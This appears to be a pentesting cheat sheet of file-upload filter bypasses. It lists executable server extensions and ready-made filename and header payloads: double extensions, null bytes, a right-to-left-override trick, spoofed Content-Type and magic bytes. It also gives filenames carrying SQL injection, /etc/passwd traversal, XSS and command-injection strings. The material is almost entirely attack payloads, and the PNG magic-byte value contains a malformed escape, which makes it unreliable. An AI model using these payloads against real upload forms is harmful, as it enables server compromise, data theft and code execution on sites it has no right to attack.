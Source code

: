 # Insecure File Upload

## Defaults extensions

#### PHP

```bash
.php
.php2
.php3
.php4
.php5
.php7
.pht
.shtml
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
.htaccess
```

#### ASP

```
.asp
.aspx
.cer
.asa
.ashx
.asmx
.axd
.cshtm
.cshtml
.rem
.soap
```

#### JSP

```
.jsp
.jspx
.jsw
.jspf
.jsv
.wss
.do
.action
```

#### Perl

```
.pl
.pm
.cgi
.lib
```

#### Coldfusion

```
.cfm
.cfml
.cfc
.dbm
```

#### Flash

```
.swf
```

#### Erland Yaws Web Server

```
.yaws
```

## Bypasses

### Double extensions

```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
```

### Null byte

```
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```

### Special characters

```bash
#In Windows when a file is created with dots at the end those will be removed
file.php......

#Whitespace characters
file.php%20

#Right ot Left Override
file.%E2%80%AEphp.jpg #Will became file.gpj.php
```

### Content-type Bypass

```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```

### Magic bytes

```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```

### Triple equal

```
/?file=shell.php    <-- Blocked
/?file===shell.php  <-- Bypassed
```

### Filename Vulnerabilities:

```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```

## All Filename payloads

```csharp
.jpg.php
.php.jpg
.php.blah123jpg
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.php......
.php%20
.%E2%80%AEphp.jpg
.js'(select*from(select(sleep(20)))a)+'.extension
.png../../../../../../../etc/passwd
'"><img src=x onerror=alert(document.domain)>.extension
../../../tmp/lol.png
.; sleep 10;
```
